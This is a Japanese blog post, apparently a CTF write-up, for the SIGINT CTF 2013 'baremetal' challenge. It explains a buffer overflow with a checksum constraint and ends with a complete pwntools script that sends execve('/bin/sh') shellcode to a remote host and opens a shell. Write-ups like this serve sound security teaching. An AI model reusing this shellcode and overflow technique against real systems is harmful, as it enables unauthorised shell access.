 ```yaml
---
layout: post
alias: "/blog/2016/03/31/sigint-ctf-2013-baremetal/"
title: "SIGINT CTF 2013 baremetal"
date: 2016-03-31T04:41:15+09:00
tags: [ "ctf", "writeup", "pwn", "sigint-ctf", "bof" ]
"target_url": [ "http://shell-storm.org/repo/CTF/SIGINT-2013/pwning/baremetal-100/" ]
---
```


## 解法

``` sh
$ file baremetal
baremetal: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, stripped

$ checksec --file baremetal
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   baremetal

$ ldd baremetal
    not a dynamic executable

$ ll baremetal
-rwxr-xr-x 1 user user 684 Jul  8  2013 baremetal
```

-   直接`int 0x80`する小さなバイナリ
-   入力を読み、この文字列がチェックを通過すれば、bss領域にあるコードを実行する

<!-- -->

-   入力にbofがあって、実行されるコードの先頭$1$byteを上書き可能
-   チェックは、各文字のascii codeの総和が0x1ee7であるかどうか、である
    -   入力が短すぎてもだめだが、これは容易に無視できる
    -   nullまでの総和であるので、bofすると考慮すべき文字が追加されるので注意
-   実行されるコードというのは`\x47\x47\xff\xe7` `inc edi; inc edi; jmp edi`
    -   bufferのaddressは`eax`に入っている
    -   `\x97` `xchg edi, eax`を使う
    -   以下を適当に叩いて探した どうせ高々$256$通りである

``` sh
$ echo -n $'\x97\x47\xff\xe7\0\0\0\0' > a && objdump -D a -b binary -mi386 -M intel
```

## 実装

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()
context.log_level = 'debug'

read_len = 0x3d
funptr = "\x47\x47\xff\xe7"
cmp_sum = 0x1ee7

# http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = \
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69" + \
    "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
xchg_edi_eax = "\x97"

payload = ["\xff", shellcode, xchg_edi_eax]
l = read_len - len(''.join(payload))
s = [1] * l
i = 0
measure = lambda: sum(map(ord,''.join(payload))) + sum(s) + sum(map(ord,funptr[1:]))
while measure() < cmp_sum:
    d = cmp_sum - measure()
    s[i] += min(255 - 1, d)
    i += 1
payload.insert(2, ''.join(map(chr,s)))
payload = ''.join(payload)

log.info(repr(payload))
log.info(str(sum(map(ord,payload))))

p = remote(args.host, args.port)
p.recvline()
p.send(payload)
time.sleep(0.2)
p.sendline('id')
p.interactive()
```
